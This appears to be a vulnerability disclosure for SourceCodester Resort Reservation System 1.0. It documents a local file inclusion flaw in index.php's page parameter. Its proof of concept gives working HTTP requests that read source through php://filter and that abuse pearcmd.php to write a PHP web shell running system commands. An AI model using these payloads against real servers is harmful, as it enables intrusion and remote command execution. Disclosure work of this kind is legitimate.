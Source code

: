 # SourceCodester Resort Reservation System 1.0 has a local file inclusion vulnerability
## Software
- Software: Resort Reservation System 1.0
- Software Link: https://www.sourcecodester.com/php/16447/resort-reservation-system-php-and-sqlite3-source-code-free-download.html
- Vulnerability Type: local file inclusion
- Attack Type: Remote
- Vendor of Product: Sourcecodester

## Description
SourceCodester Resort Reservation System 1.0 allows local file inclusion via the page parameter after users logged in, this vulnerability leads to remote attackers execute system commands by including pearcmd.php

## Vulnerability Code
- index.php


## POC
- Local File Inclusion:
```http
GET /index.php?page=php://filter/read=convert.base64-encode/resource=DBConnection HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: PHPSESSID=618bc77tb1eq1tare3i7oic4u6

```
![](https://github.com/Yesec/Resort-Reservation-System/assets/19534204/5736f5b7-549c-4ba1-8ffa-6b4ec13f6e7f)



- Execute system commands:

```http
GET /index.php?page=/../../../../usr/share/php/pearcmd&+config-create+/&<?=system($_GET['a'])?>+/var/www/html/1.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: PHPSESSID=618bc77tb1eq1tare3i7oic4u6

```
The file path for pearcmd.php needs to be changed according to the actual situation. In the default PHP Docker environment, the file path for pearcmd.php is `/usr/local/lib/php/pearcmd.php`.
![](https://github.com/Yesec/Resort-Reservation-System/assets/19534204/8b2d8925-826b-4946-8163-46bd55e7d266)



requests 1.php to execute system commands:
![](https://github.com/Yesec/Resort-Reservation-System/assets/19534204/f21ab037-17be-4d46-ac5b-e2db9169abb8)

